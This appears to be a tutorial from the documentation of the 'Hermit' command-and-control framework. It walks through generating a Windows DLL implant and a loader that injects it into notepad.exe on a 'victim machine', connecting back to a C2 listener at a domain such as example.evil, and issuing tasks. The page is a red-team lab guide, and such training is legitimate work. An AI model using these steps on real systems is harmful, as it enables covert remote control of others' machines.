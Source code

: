 # Simple DLL Injection

In this tutorial, we generate **DLL Implant** and **Loader** which loads the DLL into memory on Windows victim machine. Then make the C2 agent to communicate with our C2 server. 

Assume that you've completed [the Simple Implant Beacon tutorial](./simple-implant-beacon.md).  

> IMPORTANT: It's heavily recommended to use **a virtual machine** for Windows victim machine because If we modify the registry etc., the system might not work properly.

## 1. Start C2 Server

In the Hermit project root, start the C2 server:

```sh
./hermit
```

## 2. Start HTTPS Listener

Once the C2 server started, we also need to start HTTPS listener:

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

After starting, the listener folder is generated at `$HOME/.hermit/server/listeners/https-<name>`.

## 3. Generate DLL Implant

At first, generate an implant DLL with `payload gen` command.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_dll.png)

In the settings wizard, choose the following options at least:

- What to generate? -> `implant/beacon`
- OS/Arch/Format    -> `windows/amd64/dll`

### Custom Domain Setting (Optional)

If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

### Check Generated Payload

After that, we can see the generated payload with the `listener payloads <LISTENER-ID>` command:

![listener payloads](../assets/images/terminal/listener_payloads.png)

This command lists all payloads hosted on the listener.  
We can freely delete arbitrary payload by selecting a payload on this menu (of course, we shouldn't delete it now).  

This payload is stored under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. The DLL loader that we will create later will find this DLL file in this directory and load it automatically, so don't move this payload.

## 4. Generate DLL Loader

Next, generate a DLL loader that loads the DLL implant and inject it on specific process.  
Run `payload gen` command again:

![payload gen](../assets/images/terminal/payload_gen_loader_dll_win_amd64_exe.png)

In the option wizard, choose the following options at least:

- What to generate?         -> `loader/dll`
- OS/Arch/Format            -> `windows/amd64/exe`
- Listener URL              -> (Same URL as when generating the DLL)
- Technique                 -> `dll-injection`
- Target Process to Inject  -> `notepad.exe`

This stager is also generated under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. 

### Transfer the Loader

**Now we need to transfer the generetad loader to Windows victim machine.**

## 5. Execute Loader

In Windows victime machine, at first, start `notepad.exe` as target process to inject our DLL into:

```ps title="Windows Victim Machine"
PS C:\Users\victim\Desktop> notepad
```

That's because we've specified `notepad.exe` (by default) as target process in the previous **Generate DLL Loader** section.  
By doing so, our loader can inject the DLL into the `notepad` process.

Finally we can execute the loader as below:

```ps title="Windows Victim Machine"
# Replace the filename with our own.
PS C:\Users\victim\Desktop> .\loader.exe
```

## 6. Switch to Agent Mode

After a few seconds (10~30 seconds by default), we can see that the agent connected to our C2 server with `agents` command:

![agents](../assets/images/terminal/agent_list.png)

To enter the agent mode, run `agent use` command on C2 server console:

![agent use](../assets/images/terminal/agent_use.png)

## 7. Send Tasks

In agent mode, we can send tasks and see results. Try `ps ls` task:  

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > ps ls
```

This task prints all running processes on victim machine. 

After a few seconds, run the `task results` or `loot show` command to see the result:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
Hermit [agent-abcd] > loot show
```

If we cannot see the result yet, please repeat executing `loot show` command until the result will be shown.  

Looking at the task result, we can see that our DLL implant is running on the `Notepad.exe` process as below:

![loot ps](../assets/images/terminal/loot_show_ps.png)

That's because the loader injected the DLL into the `notepad.exe` process.

## 8. Stop Implant & Quit Agent Mode

After playing the agent, stop the implant with the `kill` command or close the `Notepad`.
Then run `exit` command to quit the agent mode.


